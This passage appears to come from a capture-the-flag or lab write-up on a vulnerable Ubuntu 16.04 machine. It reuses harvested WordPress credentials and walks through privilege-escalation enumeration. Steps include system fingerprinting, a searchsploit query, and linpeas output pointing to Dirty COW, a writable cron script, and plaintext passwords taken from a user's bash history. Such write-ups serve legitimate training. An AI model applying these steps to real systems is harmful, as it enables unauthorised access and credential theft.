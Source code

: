 These creds can be used to login in WP:
```
https://10.0.0.26:12380/blogblog/wp-admin/
```

# PrivEsc

No sudo privs

```bash
uname -a

# Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 athlon i686 GNU/Linux
```

Distro:
```bash
cat /etc/*-release

# DISTRIB_ID=Ubuntu
# DISTRIB_RELEASE=16.04
# DISTRIB_CODENAME=xenial
```

Linux version:
```bash
cat /proc/version

# Linux version 4.4.0-21-generic (buildd@lgw01-06) (gcc version 5.3.1 20160413 (Ubuntu 5.3.1-14ubuntu2) ) #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016
```

Arch:
```bash
lscpu

# Architecture:          i686
# CPU op-mode(s):        32-bit
```

Search OS exploits:
```bash
searchsploit Ubuntu 16.04
# Some exploits available
```

linpeas:
```
=> dirty cow exploit highly likely

Write permission on cron script:
/usr/local/sbin/cron-logrotate.sh
```

```
Searching passwords in history files
/home/JKanode/.bash_history:sshpass -p thisimypassword ssh JKanode@localhost   # /home/JKanode/.bash_history:sshpass -p JZQuyIN5 peter@localhost
```
